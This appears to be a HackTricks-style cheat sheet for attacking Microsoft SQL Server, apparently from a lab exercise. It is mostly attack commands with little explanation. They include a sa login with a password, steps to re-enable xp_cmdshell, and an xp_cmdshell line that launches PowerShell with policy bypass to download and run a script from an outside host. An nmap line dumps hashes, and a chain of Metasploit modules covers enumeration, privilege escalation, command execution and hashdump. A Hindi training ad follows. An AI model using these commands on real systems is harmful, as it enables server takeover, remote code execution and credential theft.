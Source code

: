 ```

#sqsh -S 10.10.10.59 -U sa -P GWE3V65#6KFH93@4GWTG2G

###the goal is to get xp_cmdshell working###
1. try and see if it works
xp_cmdshell `whoami`
go

2. try to turn component back on
EXEC SP_CONFIGURE 'xp_cmdshell' , 1
reconfigure
go
xp_cmdshell `whoami`
go

3. 'advanced' turn it back on
EXEC SP_CONFIGURE 'show advanced options', 1
reconfigure
go
EXEC SP_CONFIGURE 'xp_cmdshell' , 1
reconfigure
go
xp_cmdshell 'whoami'
go




xp_cmdshell "powershell.exe -exec bypass iex(new-object net.webclient).downloadstring('http://10.10.14.60:8000/ye443.ps1')"


https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server

Entry_2:
Name: Nmap for SQL
Description: Nmap with SQL Scripts
Command: nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 {IP}

Entry_3:
Name: MSSQL consolesless mfs enumeration
Description: MSSQL enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/mssql/mssql_ping; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_enum; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use admin/mssql/mssql_enum_domain_accounts; set RHOSTS {IP}; set RPORT <PORT>; run; exit' &&msfconsole -q -x 'use admin/mssql/mssql_enum_sql_logins; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_escalate_dbowner; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_escalate_execute_as; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_exec; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_findandsampledata; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mssql/mssql_hashdump; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mssql/mssql_schemadump; set RHOSTS {IP}; set RPORT <PORT>; run; exit'

```
{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)